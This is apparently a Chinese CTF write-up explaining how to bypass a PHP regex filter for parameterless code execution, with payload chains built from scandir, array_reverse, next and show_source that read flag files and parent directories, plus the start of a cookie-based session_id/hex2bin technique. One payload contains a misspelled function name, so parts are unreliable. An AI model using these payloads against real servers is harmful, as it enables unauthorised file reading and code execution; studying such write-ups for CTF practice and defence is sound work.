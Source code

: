     }
}
// highlight_file(__FILE__);
?>

 第一眼看见第二个if语句，if(';' === preg_replace('/[a-z,_]+/', NULL, $_GET['exp']))可以看出这是典型的无参数rce,然后是后面的if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])，这里限制了phpinfo()，getcwd()这些函数用不了

最终payload为：

?exp=highligth_file(next(array_reverse(scandir(current(localeconv())))));
接下来逐个解析，1、 这里的var_dump(localeconv());我们能看见第一个string[1]就是一个“.”，这个点是由localeconv()产生的

2、 利用current()函数将这个点取出来的，‘.’代表的是当前目录，那接下来就很好理解了，我们可以利用这个点完成遍历目录的操作，相当于就是linux中的ls指令

3、既然current()取第一个值，那么current(localeconv())构造一个‘.’,而'.' 表示当前目录，scandir('.') 将返回当前目录中的文件和子目录，这里我们得知flag所在的文件名就是flag.php

4、然而flag的文件名在比较后端我们可以通过array_reverse()将数组内容反转，让它从倒数第二的位置变成正数第二

5、移动指针读取第二个数组，参照下列数组移动操作可知我们应选用next()函数：

end() ： 将内部指针指向数组中的最后一个元素，并输出
next() ：将内部指针指向数组中的下一个元素，并输出
prev() ：将内部指针指向数组中的上一个元素，并输出
reset() ： 将内部指针指向数组中的第一个元素，并输出
each() ： 返回当前元素的键名和键值，并将内部指针向前移动
6、最后用highlight_file()返回文件内容

使用最多最灵活的一个函数,可以构造出不同用法，这里直接引用了别人的payload：

highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位
  //查看和读取根目录文件
  //查看和读取根目录文件
方法二：session_id()
 使用条件：当请求头中有cookie时（或者走投无路手动添加cookie头也行，有些CTF题不会卡）

 首先我们需要开启session_start()来保证session_id()的使用，session_id可以用来获取当前会话ID，也就是说它可以抓取PHPSESSID后面的东西，但是phpsession不允许()出现

法一：hex2bin（）
我们自己手动对命令进行十六进制编码，后面在用函数hex2bin()解码转回去，使得后端实际接收到的是恶意代码。我们把想要执行的命令进行十六进制编码后，替换掉‘Cookie:PHPSESSID=’后面的值

以下是十六进制编码脚本：

<?php
$encoded = bin2hex("phpinfo();");
echo $encoded;
?>
得到phpinfo();的十六进制编码，即706870696e666f28293b
